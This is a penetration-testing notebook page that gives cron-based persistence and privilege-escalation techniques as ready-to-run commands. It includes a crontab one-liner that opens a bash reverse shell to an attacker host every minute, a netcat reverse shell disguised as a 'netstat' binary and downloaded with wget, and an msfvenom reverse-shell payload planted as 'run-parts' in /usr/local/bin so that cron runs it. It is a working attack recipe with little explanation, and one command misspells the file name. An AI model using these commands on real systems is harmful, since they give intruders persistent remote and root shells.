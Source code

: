 ```yaml
---
category: Uncategorized
tags: []
---
```

#### Echo cron job

```bash - target
(crontab -l ; echo "* * * * * bash -i >& /dev/tcp/$KALI/443 0>&1 &") | crontab -
```

#### Example 1

![[Pasted image 20220225224851.png|1000]]

Target:
```bash - target
cd /dev/shm
```

Kali
```bash - kali
echo 'nc $KALI 443 -e /bin/bash' > netstat
```


![[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

Target:
```bash - target
wget http://$KALI/netstat
```

```bash - target
chmod +x netsat
```

![[rlwrap]]

#### Example 2

![[Pasted image 20220302210353.png]]

![[Pasted image 20220302210759.png]]

```bash - kali
msfvenom -p linux/x64/shell_reverse_tcp LHOST=$KALI LPORT=3000 -f elf > run-parts
```

```bash - target
cd /usr/local/bin
```

```bash - target
wget http://$KALI:3000/run-parts
```

```bash - target
chmod +x /usr/local/bin/run-parts
```

```bash - kali
sudo rlwrap -cAr nc -lvnp 3000
```

Wait the 5 minutes for the code to run.